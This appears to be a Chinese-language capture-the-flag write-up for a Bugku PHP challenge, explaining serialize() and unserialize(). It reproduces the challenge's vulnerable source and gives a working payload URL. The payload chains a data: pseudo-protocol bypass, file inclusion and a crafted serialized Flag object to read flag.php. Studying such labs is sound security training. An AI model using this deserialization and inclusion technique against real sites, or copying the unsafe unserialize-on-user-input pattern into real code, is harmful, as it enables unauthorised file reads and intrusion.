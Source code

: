 ```yaml
---
这应该是php序列化和反序列话需要用到的函数serialize()与unserialize()
---
```


# 关于php serialize\(\)与unserialize\(\)

## 0x00 问题来源

来源于 bugku ctf ：[http://120.24.86.145:8006/test1/](http://120.24.86.145:8006/test1/)

通过伪协议可以绕过 `file_get_contents($user,'r')==="welcome to the bugkuctf"`

通过同样伪协议+base64可以得到hint.php和index.php的源码

> hit.php

```text
<?php  
  
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
			echo "<br>";
		return ("good");
        }  
    }  
}  
?>  
```

> index.php

```text
<?php  
$txt = $_GET["txt"];  
$file = $_GET["file"];  
$password = $_GET["password"];  
  
if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
    echo "hello friend!<br>";  
    if(preg_match("/flag/",$file)){ 
		echo "不能现在就给你flag哦";
        exit();  
    }else{  
        include($file);   
        $password = unserialize($password);  
        echo $password;  
    }  
}else{  
    echo "you are not the number of bugku ! ";  
}  
  
?>  
  
<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  
  
if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
    echo "hello admin!<br>";  
    include($file); //hint.php  
}else{  
    echo "you are not admin ! ";  
}  
 -->  
```

得到解题思路：用index中的12行包含hint.php,再利用Flag类读取flag.php，然后查一下：

unserialize\(\)是一个有关于php序列化的函数，会把已经序列化的php类转化成对象 

还有一个serialize\(\)是和unserialize\(\)相反的，这就好办了,直接利用下面的脚本得到序列化后的序列

```text
<?php
        class Flag{//flag.php
         public $file='flag.php';
         public function __tostring(){
                if(isset($this->file)){
                        echo file_get_contents($this->file);
                        echo "<br>";
                        return ("good");
                        }
                 }
        }
        $pass = new Flag();
        echo serialize($pass);
//      以下为测试内容
//      $pass = 'O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}';
//      $pass = unserialize($pass);
//      echo $pass;
?>
```

payload：view-source:[http://120.24.86.145:8006/test1/?txt=data:text/plain,welcome to the bugkuctf&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}](http://120.24.86.145:8006/test1/?txt=data:text/plain,welcome%20to%20the%20bugkuctf&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";})

## 0x01 总结

突然就写完了，本来还想详细总结一下这个函数，但是发现其实这个函数好像没什么总结的

serialize\(\)序列话对象后的格式其实是可以理解的 ，就是双引号括起来的内容前面的数字基本都是双引号中的内容的长度，再前面是类型，int型的话就是类型+内容，比如int类型的12，就是i:12，然后顺序是变量名；变量内容；下一个变量名；下一个变量内容
